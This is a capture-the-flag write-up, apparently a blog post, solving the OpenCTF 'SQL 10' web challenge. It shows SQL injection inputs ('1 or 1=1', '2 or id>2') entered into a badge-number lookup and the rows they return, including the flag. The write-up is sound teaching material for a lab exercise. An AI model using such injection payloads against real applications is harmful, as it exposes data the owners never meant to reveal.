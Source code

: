 ```yaml
---
title: "OpenCTF SQL 10"
date: Sun, 12 Aug 2018 09:37:59 +0000
draft: false
type: posts
categories: 
- 
---
```

# OpenCTF SQL 10

<br/>

<br/>
**Category:** Web

**Points:** 10

**Description:**

```
https://sql-mayham.openctf.com/ziopxuoiwquyerhnszpasdyvzlkxcjlwerqwer/sql-10/
```

When `1` is entered it returns the following row:

```
Enter a badge number to view that officers file:1
(1, 'bob', 'simmons', 'none')
```

Performing a basic sql injection we got the same row back but no error. The server only returns 1 row

```
Enter a badge number to view that officers file:1 or 1=1
(1, 'bob', 'simmons', 'none')
```

Entering an ID of 2 no results are found.

```
Enter a badge number to view that officers file:2 
None
```

Using the sql injection an OR was added to say “id>2”

```
Enter a badge number to view that officers file:2 or id>2
(152135123451, 'flag', 'flag', 'Th@tW@53@5yHuh')
```

This returns the flag in the one other row in the database

Flag
====

**Th@tW@53@5yHuh**

#### [Source](http://b0tchsec.com/2018/openctf/sql10)

<br/>
---
